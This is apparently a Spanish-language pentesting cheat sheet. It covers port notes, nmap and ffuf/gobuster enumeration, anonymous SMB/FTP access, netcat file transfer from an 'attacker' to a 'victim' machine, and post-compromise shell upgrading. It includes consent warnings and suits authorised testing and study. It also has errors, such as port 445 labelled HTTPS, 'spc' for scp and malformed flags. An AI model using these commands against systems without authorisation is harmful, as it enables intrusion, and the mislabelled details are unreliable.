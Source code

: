 ```yaml
---
title: Cheat sheet 🔰
layout: default
has_toc: false
nav_order: 2
has_children: false
---
```


# Pentesting  📕
---
**Pequeña guía sobre las herramientas básicas necesarias para el pentesting.**

## Puertos destacables 🔑
- 21 **(FTP)**  Posible acceso con login anónimo.

- 22 **(SSH)** Si obtenemos las credenciales podemos tener acceso al sistema a través de este servicio.

- 80 **(HTTP)** Servidor web - Enumeración de directorios y búsqueda de vulnerabilidades en el servidor web.

- 143 / 993 **(IMAP)** Ataques de fuerza bruta contra las credenciales del servidor de correo electrónico.

- 110 / 995 **(SSL)** Posibles ataques de fuerza bruta contra las credenciales del servidor POP3.

- 445 **(HTTPS)**: Enumeración de certificados SSL/TLS para revelar posibles debilidades en la configuración de seguridad del servidor.


# Escaneo de Red 💻

---

### Nmap
https://nmap.org/

Es una herramienta de escaneo de puertos y análisis de redes de código abierto que se utiliza para identificar hosts y servicios en una red

{: .warning }
>Busquedas invasivas, no podemos utilizar estas técnicas sin un consentimiento o aprobación por parte del objetivo.


### Escaneo de Hosts:

`nmap -n -sn --reason --min-rate 2000 10.0.0.0/24 -oN hostDiscovery`

### Escaneo de Puertos:
`nmap -np- -Pn --min-rate 5000 -v 10.0.0.0 -oN tcpPort -`

### Escaneo en dDtalle de un puerto:

`nmap -n -p21 -Pn -T5 10.0.0.0 -oN tcpPort21 -sVC`


# Herramientas para Servicios web 🕸️

---

## FFuF 
https://github.com/ffuf/ffuf
Herramienta de fuzzing de código abierto.

{: .warning }
>Busquedas invasivas, no podemos utilizar estas técnicas sin un consentimiento o aprobación por parte del objetivo.



### Enumeración de URL:
`ffuf -u http://localhost:3000/FUZZ  -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt`

### Enumeración de Archivos
`ffuf -u http://localhost:3000/FUZZ  -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.html,.txt`

### Enumeración de Subdominios
`ffuf -u http://FUZZ.localhost:3000/ -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt`

---

## Gobuster 
https://github.com/OJ/gobuster

Herramienta de enumeración de directorios y subdominios.

{: .warning }
> Busquedas invasivas, no podemos utilizar estas técnicas sin un consentimiento o aprobación por parte del objetivo.


### Enumeración de URL:
`gobuster -w /usr/share/wordlists/dirb/common.txt dir -u http://domain.com -x php,txt,html,cgi`

### Enumeración de Subdominios:
`gobuster dns -d http://domain.com -w wordlist.txt -i`

### Enumeración de Pantallas Ocultas:
`gobuster vhost -u http://domain.com -w wordlist.txt -v`


# Servicio SMB 🔑

---

Protocolo responsable de transferir datos entre un cliente y un servidor en redes de área local. 

### Enumeracion de recursos compartidos:
`smbclient -L 10.10.10.10 -N`

`rpcclient -U "" -N 10.10.10.10`

### Entrar con login anonimo:
`smbclient //10.10.212.43/Anonymous/`


# FTP 💻

---


### Entrar con usuario anónimo
`ftp 10.0.0.0 21 `

`#Name:anonymous
#Pass: -

# Transferencia de archivos 🗃️

---

## PYTHON

`python3 -m http.server 8000`

`python2 -m SimpleHTTPServer 8000`

`curl http://10.10.10.10/file.php`

## Netcat

### Maquina hacker
`nc -lvnp 4444 < file`

### Maquina Victima

`nc 10.10.10.10 4444 > file`

## SSH

### Archivo
`spc file.txt user@10.10.10.10:/path/`

### Carpeta
`spc -r user@10.10.10.10:/folder /path/folder/`


# Shell Upgrading 🐚

---

`script /dev/null -c bash` 

`cntrl+Z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=bash`

`export TERM=xterm`

`stty raws <filas> cols <columnas>`